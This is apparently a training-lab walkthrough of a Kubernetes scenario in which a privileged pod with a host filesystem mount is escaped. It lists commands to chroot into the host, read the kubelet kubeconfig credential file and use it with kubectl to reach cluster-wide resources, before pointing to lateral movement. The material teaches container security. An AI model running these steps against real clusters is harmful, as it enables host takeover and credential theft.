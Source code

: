 # Container escape to access the host system

## Scenario Information

Most of the monitoring, tracing, and debugging software requires to run with extra privileges and capabilities. Here in this scenario, we will see a pod with extra capabilities and privileges including HostPath allows us to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

* To get started with the scenario, navigate to [http://127.0.0.1:1233](http://127.0.0.1:1233)

![Scenario 4 Welcome](images/sc-4-1.png)

## Scenario Solution

After performing the analysis, we identified that this container has complete privileges of the host system and allowed privilege escalation. As well as `/host-system` is mounted from the host system.

```bash
ls /
ls /host-system/
```

![Scenario 4 host system](images/sc-4-2.png)

* Gaining the host system privileges access `chroot`

```bash
chroot /host-system bash
docker ps
```

![Scenario 4 chroot host](images/sc-4-3.png)

* Accessing the node level kubelet Kubernetes configuration

```bash
cat /var/lib/kubelet/kubeconfig
```

![Scenario 4 kubelet config](images/sc-4-4.png)

> Download the kubectl locally to use this config and perform operations

* Using the kubelet configuration to perform Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

![Scenario 4 get kube-system](images/sc-4-5.png)

* From here we can go beyond by performing the lateral moment and post exploitation

## Miscellaneous

TBD
